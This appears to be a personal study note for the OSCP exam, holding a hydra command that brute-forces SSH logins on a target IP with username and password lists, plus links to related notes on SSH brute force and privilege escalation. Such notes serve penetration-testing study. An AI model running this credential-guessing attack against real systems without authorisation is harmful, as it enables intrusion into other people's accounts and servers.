 # hydra ssh brute force
```bash
hydra -L users -P passwords -e nsr $IP ssh -t 1
```

` zet/20221003150823/README.md `

# Related

- [20221014185845](/zet/20221014185845/README.md) kb file named kb/hacking/commands/hydra-ssh-command.md
- [20221003150346](/zet/20221003150346/README.md) SSH brute force
- [20221003150805](/zet/20221003150805/README.md) brute force default credentials ssh
- [20221003151210](/zet/20221003151210/README.md) linux privilege escalation
- [20221003151174](/zet/20221003151174/README.md) SSH to try list
- [20221009005402](/zet/20221009005402/README.md) preparing for the OSCP exam

Tags:

    #command #hacking #bruteforcing
